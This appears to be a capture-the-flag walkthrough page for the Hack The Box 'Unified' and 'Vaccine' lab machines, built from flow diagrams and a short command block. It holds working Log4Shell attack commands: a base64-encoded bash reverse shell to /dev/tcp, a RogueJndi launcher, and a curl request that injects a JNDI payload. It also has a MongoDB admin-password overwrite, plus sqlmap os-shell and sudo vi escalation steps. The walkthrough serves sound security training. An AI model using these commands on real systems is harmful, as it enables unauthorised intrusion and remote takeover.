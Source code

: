
<script type="text/javascript"
  src="https://cdn.jsdelivr.net/npm/mermaid/dist/mermaid.min.js">
</script>

<script>
    mermaid.initialize({
        startOnLoad: true,
 	      theme: 'dark'
<!-- 	'themeVariables': { 'primaryColor': '#00FFFF00'}  -->
    });
</script>

## Mini-walkthroughs for Hack The Box! 

[Unified](https://app.hackthebox.com/starting-point/#unified)
<div class="mermaid">
graph LR

  subgraph Priv. Escalation
  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
  4["mkpasswd -m sha-512"]--> 5["change admin </br> password"] --> 6["login with <br/> new password"] 
  6 --> 7["check site settings <br/> get root ssh password 🏳️"]

  3 --> 5
  end
  
  subgraph Exploit log4j
  a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
  a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
  a --> e[prepare bash shell] --> f["encode w. base 64"] 
  f --> g["Run the rogue server"]
  d --> g
  a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
  g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
  end
  
  subgraph Scan
  A[nmap] --> B[8443 <br/> UniFi Network] 
  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
  D --> E["param. remember <br/> Post /api/login"]
  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
  A --> C[ssh] 
  end
</div>

Useful commands
```bash 
echo 'bash -c bash -i >&/dev/tcp/{IP}/{port} 0>&1' | base64



java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" \
--hostname "{YOUR TUN0 IP ADDRESS}"



curl 'https://10.129.12.182:8443/api/login' \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' \
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' \
--compressed \
-H 'Referer: https://10.129.12.182:8443/manage/account/login?redirect=%2Fmanage' \
-H 'Content-Type: application/json; charset=utf-8' \
-H 'Origin: https://10.129.12.182:8443' \
-H 'Connection: keep-alive' \
--data-raw '{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.118:1389/o=tomcat}","strict":true}' \
--insecure

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

mongo --port 27117 ace --eval 'db.admin.update({"_id":\
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'


```




[Vaccine](https://app.hackthebox.com/starting-point/#vaccine)

<div class="mermaid">
graph LR
    A[nmap] --> B[FTP]
    A --> C[http]
    A --> D[ssh]
    B --> E[get zip] --> F[zip2john] --> G[john] --> H([admin/pass]) 
    C --> I[login <br/> admin/pass] --> J["sqlmap --os-shell <br/> dashboard?search"] --> K[bash reverse shell] --> L["look in <br/> /var/www/html"] --> M([postgres/pass])
    D --> N[postgres/pass] --> P["sudo -l"] --> Q["sudo vi"] --> R[GTFOBins] --> S(["root 🏳️"])
</div>

